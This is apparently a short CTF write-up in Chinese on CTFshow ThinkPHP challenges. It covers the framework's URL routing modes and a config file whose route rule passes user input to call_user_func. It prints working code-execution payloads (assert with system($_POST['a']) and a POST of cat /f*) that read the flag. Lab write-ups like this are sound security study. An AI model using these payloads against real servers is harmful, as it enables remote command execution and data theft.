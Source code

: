 # CTFSHOW-Thinkphp专题

---

### WEB-569

题目提示：

![image-20250116153844805](https://gitee.com/bx33661/image/raw/master/path/image-20250116153844805.png)

学习了解pathinfo方式

```
index.php/Admin/Login/ctfshowLogin
index.php?s=/Admin&c=Login&a=ctfshowLogin


PATHINFO模式
/index.php/Admin/Login/ctfshowLogin

普通模式
/index.php?m=Admin&c=Login&f=ctfshowLogin

兼容模式
/index.php?s=Admin/Login/ctfshowLogin

REWRITE模式
/Admin/Login/ctfshowLogin
```



### web579

在/common/conf.php中发现了危险函数

```php
<?php
return array(
	//'配置项'=>'配置值'
	'DB_TYPE'               =>  'mysql',     // 数据库类型
    'DB_HOST'               =>  '127.0.0.1', // 服务器地址
    'DB_NAME'               =>  'ctfshow',          // 数据库名
    'DB_USER'               =>  'root',      // 用户名
    'DB_PWD'                =>  'ctfshow',          // 密码
    'DB_PORT'               =>  '3306',        // 端口
    'URL_ROUTER_ON'   => true, 
	'URL_ROUTE_RULES' => array(
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
);
```

---》/index.php/ctfshow/assert/phpinfo()

![image-20250116202054008](https://gitee.com/bx33661/image/raw/master/path/image-20250116202054008.png)

```(空)
index.php/ctfshow/assert/system($_POST['a']);

a=cat /f*
```

